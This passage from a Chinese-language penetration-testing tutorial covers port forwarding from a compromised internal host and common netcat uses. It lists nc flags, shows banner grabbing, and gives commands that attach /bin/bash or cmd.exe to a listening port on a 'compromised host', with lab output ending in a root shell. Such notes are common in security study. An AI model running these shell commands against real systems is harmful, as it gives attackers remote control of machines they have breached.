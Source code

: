 此时访问公网主机 IP 的 5555 端口，就会访问到内网失陷主机的 22 端口了。

## 2、netcat 使用

nc 下载地址：[https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

nc 全称 netcat，它的功能很多，这里简单记录下两个常用的功能，其他的比如文件传输、端口扫描等等的就不介绍了，毕竟平时使用频率有一说一还是比较少的。

```
-l 开启监听状态
-v 显示详细信息
-p 指定监听的本地端口
-k 客户端断掉连接时，服务端依然保持运行
-e 将传入的信息以命令执行
-n 直接使用 IP 地址，不进行 dns 解析过程
```

### 获取 banner 信息

个人觉着最常用的功能，这个不仅可以用来查看 banner 信息，还能用来判断端口是否开放。

```
nc -vv rhost rport
```

```
> nc -v 172.16.214.43 22
Connection to 172.16.214.43 port 22 [tcp/ssh] succeeded!
SSH-2.0-OpenSSH_8.4p1 Debian-3
```

### 反弹shell

个人觉着这个也是最常用的功能，可以使用 -e 指定 /bin/bash 进行反弹，也可以直接 -c 指定 bash 或者 cmd

**-e 指定反弹 shell**

```
# 失陷主机
nc -lvp lport -e /bin/bash		# linux 主机
nc -lvp lport -e c:\windows\system32\cmd.exe 	# windows 主机

# 控制端
nc rhost rport
```

```
# 失陷主机
> nc -lvp 4444 -e /bin/bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60628

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```
